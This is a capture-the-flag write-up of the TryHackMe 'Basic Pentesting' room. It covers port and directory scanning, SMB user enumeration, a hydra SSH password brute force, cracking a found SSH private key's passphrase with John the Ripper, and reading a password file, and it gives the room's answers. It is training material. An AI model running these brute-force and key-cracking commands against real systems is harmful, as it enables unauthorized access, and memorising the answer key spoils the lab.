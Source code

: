 
---
---

<div align="center">

# TryHackMe Basic Pentesting


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/99c72676aab814b94e3bc350ba627b71.png" alt="THM BasicPentesting" width="220px" height="220px" style="margin-right: 85px;">
<img src="https://assets.tryhackme.com/img/THMlogo.png" alt="THM Logo" width="250px" height="150px" style="margin-bottom: 50px;">

<br>

🔗 [Click here to access the TryHackMe room](https://tryhackme.com/r/room/basicpentestingjt)

<br>

</div>


## IP Addresses:

* ### Target/Victim Machine
	```
	10.10.109.136 (Ubuntu 16.04)
	```

* ### Attacker Machine
	```
	10.17.35.203 (Ubuntu 23.10)
	```


<br>

## Reconnaissance:

* ### Nmap Scan

	> nmap 10.10.109.136 -o nmap.log

	```
	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 7.2p2
	80/tcp   open  http        Apache httpd 2.4.18
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
	8080/tcp open  http        Apache Tomcat 9.0.7
	```

* ### Gobuster Scan

	> gobuster dir -u 10.10.109.136 -w /usr/share/wordlists/dirb/common.txt -o gobuster.log

	```
	/.htaccess            (Status: 403) [Size: 297]
	/.hta                 (Status: 403) [Size: 292]
	/.htpasswd            (Status: 403) [Size: 297]
	/development          (Status: 301) [Size: 320]
	/index.html           (Status: 200) [Size: 158]
	/server-status        (Status: 403) [Size: 301]
	```


<br>

## THM Questions:

* _Q1_: What is the name of the hidden directory on the web server(enter name without /)? <br> _A_: `development`


<br>

## Enumeration and Bruteforcing:

* ### Enum4linux scan

	> enum4linux -a 10.10.109.136 | tee enum4linux.log

	```
	S-1-22-1-1000 Unix User\kay (Local User)
	S-1-22-1-1001 Unix User\jan (Local User)
	```

* ### Using Hydra to enumerate jan's password

	> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.109.136 | tee hydra.log

	```
	[22][ssh] host: 10.10.109.136   login: jan   password: armando
	```


<br>

## THM Questions:

* _Q2_: What is the username? <br> _A_: `jan`
* _Q3_: What is the password?  <br> _A_: `armando`


<br>

## Attempting login (user: jan)

> ssh jan@10.10.99.188

Login successful


<br>

## THM Questions:

* _Q4_: What service do you use to access the server(answer in abbreviation in all caps)? <br> _A_: `SSH`
* _Q5_: What is the name of the other user you found(all lower case)? <br> _A_: `kay`


<br>

## Finding PrivEsc vectors:

* ### linPEAS.sh scan

	Found user `kay's` `id_rsa` readable by user `jan` (logged in via ssh) in `/home/kay/.ssh/`


<br>

## Attempting login (user: kay)

> ssh -i kay_id_rsa kay@10.10.99.188

Login unsuccessful. id_rsa encrypted.


<br>

## Bruteforcing SSH key:

* ### Attempting id_rsa decryption using JohnTheRipper

	> python3 /opt/john/run/ssh2john.py kay_id_rsa > ssh2john.txt
	
	> /opt/john/run/john ssh2john.txt --wordlist=/opt/wordlists/rockyou.txt

	```
	beeswax          (kay_id_rsa)     
	```


<br>

## Attempting login (user: kay) (passphrase: beeswax)

> ssh -i kay_id_rsa kay@10.10.99.188

Login successful.


<br>

# Final Password

> cat /home/kay/pass.bak

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


<br>

# THM Questions:

* _Q6_: What is the final password you obtain? <br> _A_: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev)

</div>

---
---
